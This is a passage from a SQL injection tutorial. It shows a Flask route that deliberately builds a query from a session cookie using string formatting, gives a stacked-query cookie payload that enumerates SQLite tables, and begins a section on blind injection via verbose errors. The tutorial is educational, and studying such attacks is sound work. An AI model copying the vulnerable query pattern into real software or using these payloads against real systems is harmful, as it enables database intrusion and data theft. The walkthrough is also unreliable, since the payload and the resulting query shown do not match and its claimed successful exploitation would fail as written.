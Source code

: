 ```python
    user_cookie = request.cookies.get('session_id')
    if not user_cookie:
        return "No cookie provided!", 400

    conn = get_db_connection()
    cursor = conn.cursor()
    
    # Intentionally vulnerable SQL query
    query = f"SELECT * FROM users WHERE session_id = '{user_cookie}'"
    cursor.execute(query)
    user = cursor.fetchone()
    
    conn.close()

    if user:
        return f"Welcome back, {user['username']}!"
    else:
        return "Invalid session ID.", 403

if __name__ == '__main__':
    app.run(debug=True)
```

This script is vulnerable to **SQLIA** attacks. You can simply inject the following code in the cookies to return confidential data from the database.

A genuine cookies will be as following : 

``session_id = 2132``

We can inject the following code to get more data about the database.

```sql
session_id = 2132';SELECT name FROM sqlite_master WHERE type='table
```

The next request will be sent to the database 

```sql
SELECT * FROM users WHERE session_id = 'session_id = 2132';SELECT name FROM sqlite_master WHERE type='table'
```

which means a successful exploitation


## Blind injection

Blind SQL Injection occurs when a web application is vulnerable to SQLIA but the HTTP response doesn't include any relevent data from the database nor details of any potential erros. In the examples we provided, both of the servers return raw data from the database. but what if the server doesn't really do that? maybe it returns a ``true`` or ``false`` statements.

In this section we will learn how to successfully execute a Blind SQL Injection and to extract sensitive data via verbose SQL error.
